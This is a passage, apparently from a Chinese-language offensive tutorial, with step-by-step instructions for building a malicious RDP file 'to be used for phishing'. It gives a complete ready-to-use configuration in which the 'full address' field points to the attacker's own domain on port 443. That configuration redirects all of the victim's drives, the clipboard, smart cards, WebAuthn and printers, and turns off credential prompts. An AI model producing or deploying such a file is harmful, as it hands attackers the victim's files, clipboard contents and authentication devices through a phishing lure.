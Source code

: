 ![]()image.png

现在，我们已准备好创建将用作网络钓鱼的 RDP 文件。打开记事本并创建名为 malrdp.rdp
的新文件，将以下内容复制到其中，确保更改完整地址字段中的域名，但将端口保留为443，然后保存 RDP 文件：

    
    
    screen mode id:i:1  
    use multimon:i:0  
    desktopwidth:i:1920  
    desktopheight:i:1080  
    session bpp:i:32  
    winposstr:s:0,1,1904,23,3840,1142  
    compression:i:1  
    keyboardhook:i:2  
    audiocapturemode:i:0  
    videoplaybackmode:i:1  
    connection type:i:7  
    networkautodetect:i:1  
    bandwidthautodetect:i:1  
    displayconnectionbar:i:1  
    enableworkspacereconnect:i:0  
    disable wallpaper:i:0  
    allow font smoothing:i:0  
    allow desktop composition:i:0  
    disable full window drag:i:1  
    disable menu anims:i:1  
    disable themes:i:0  
    disable cursor setting:i:0  
    bitmapcachepersistenable:i:1  
    full address:s:<YOUR.DOMAIN.COM>:443  
    audiomode:i:0  
    redirectprinters:i:1  
    redirectcomports:i:0  
    redirectsmartcards:i:1  
    redirectwebauthn:i:1  
    redirectclipboard:i:1  
    redirectposdevices:i:0  
    autoreconnection enabled:i:1  
    authentication level:i:2  
    prompt for credentials:i:0  
    negotiate security layer:i:1  
    remoteapplicationmode:i:0  
    alternate shell:s:  
    shell working directory:s:  
    gatewayhostname:s:  
    gatewayusagemethod:i:4  
    gatewaycredentialssource:i:4  
    gatewayprofileusagemethod:i:0  
    promptcredentialonce:i:0  
    gatewaybrokeringtype:i:0  
    use redirection server name:i:0  
    rdgiskdcproxy:i:0  
    kdcproxyname:s:  
    enablerdsaadauth:i:0  
    redirectlocation:i:0  
    drivestoredirect:s:*
